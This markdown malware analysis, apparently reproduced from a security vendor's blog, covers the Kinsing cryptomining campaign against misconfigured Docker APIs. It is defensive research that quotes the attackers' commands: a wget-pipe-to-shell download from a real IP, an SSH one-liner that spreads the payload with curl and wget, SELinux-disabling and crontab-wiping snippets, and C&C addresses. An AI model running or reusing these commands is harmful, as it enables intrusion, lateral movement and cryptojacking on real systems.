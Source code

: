 

# Kinsing Malware Attack  


Aqua Security Researchers discovered a malware crypto-mining campaign in April 2020  which abuses systems running misconfigured Docker services. 


In this attack, the attackers exploit a misconfigured Docker API port to run an Ubuntu  container with the ‘kinsing’ malicious malware (Golang-based Linux Agent), which in turn  runs a crypto-miner and then attempts to spread the malware to other containers and hosts.  Attack Initiation: Instantiating an Ubuntu container with unprotected open Docker API port. 


attack initialion :- Instantiating an ubuntu container with unprotected open Docker API port 

```

/bin/bash -c apt-get update && apt-get install -y wget cron;service cron start; wget -q -O - 142.44.191.122/d.sh | sh;tail -f /dev/null

```

the command does the following 
- Update packages with `apt-get update` 
- Install ‘wget’ with `apt-get`  
- Start the cron service  
- Download a shell script with the just installed `wget`  
-  Run the shell script and read indefinitely from `/dev/null` to keep the container alive and running. 


- Associated IP addresses for downloading `d.sh`:
1) 142.44.191.122
2) 217.12.221.244
3) 185.92.74.42


# Defense Evasion and Persistence

The shell script d.sh, referred to from hereon as `the shell script`, contains more than 600 lines. We discovered that the shell script does the following:

Disables security measures and clears logs:` echo SELINUX=disabled >/etc/selinux/config`
Kills numerous applications, notably other malwares and cryptominers.
Deletes files related to other malwares/cryptominers, most of them from the /tmp directory
Kills running rival malicious Docker containers and deletes their image.
Downloads the ‘kinsing’ malware and runs it
Uses crontab to download and run the shell script every minute
Looks for other commands running in cron, and if ones were identified, deletes all cron jobs, including its own. We are not certain why the attackers chose to do so, but that is what the script executes:
`crontab -l | sed '/update.sh/d' | crontab -`


A quick look at the malware’s strings reveals that it is a Golang-based Linux agent. It uses several Go libraries, including:

- go-resty – an HTTP and REST client library, used to communicate with a Command and Control (C&C) server.
- gopsutil – a process utility library, used for system and processes monitoring.
- osext – extension to the standard ‘os’ package, used to execute binaries.
- diskv - A disk-backed key-value store, for storage.
- Running the malware in a controlled environment and monitoring it brought up more details about its malicious actions.

# Communication with C&C servers

Before the malware proceeded to deploy its payload, it attempted to communicate with servers in Eastern Europe. It appears that there are dedicated servers for each function that the malware executes:

- Attempts to establish a connection with the following IP address: 45.10.88.102. The attempts fail as the server does not respond.
- Connects to 91.215.169.111, which appears to be the main C&C server. The malware communicates with that host over HTTP port 80, and sends small encrypted messages on regular intervals, every few seconds.
- Connects to 217.12.221.244/spre.sh, which we presume stands for spread, as we will see in the next paragraph, to download a shell script used for lateral movement purposes.
- Connects to 193.33.87.219 to download the cryptominer C&C communication.

# Discovery and Lateral Movement
The spre.sh shell script that the malware downloads is used to laterally spread the malware across the container network.

In order to discover potential targets and locate the information it needs to authenticate against, the script passively collects data from`/.ssh/config, .bash_history, /.ssh/known_hosts`, and the likes. We did not identify any active scanning techniques used to identify additional targets.

Using the information gathered, the malware then attempts to connect to each host, using every possible user and key combination through SSH, in order to download the aforementioned shell script and run the malware on other hosts or containers in the network.

The actual shell script is named spr.sh this time around, but it is identical to the a d.sh shell script used earlier in the attack sequence

The following SSH command was used to spread it throughout the network:

```
ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host -p$sshp "sudo curl -L http://217.12.221.244/spr.sh|sh; sudo wget -q -O - http://217.12.221.244/spr.sh|sh;"

```




We noticed a comment in the script for a 20 seconds sleep after every 20 SSH connection attempts, and their cleanup, possibly indicating that the attackers have some sense of evasion and were trying to hide their activities.

At the last stage of the attack the malware runs a cryptominer called kdevtmpfsi. The cryptominer was identified by Virus Total as a Bitcoin miner.

The cryptominer connects to a host with the 193.33.87.219 IP address using a log in request over HTTP, receives further instructions, and starts mining cryptocurrency.

The infographic below illustrates the full flow of the attack:

![](/img/KinsingMalwareInfography.png)


credit - https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability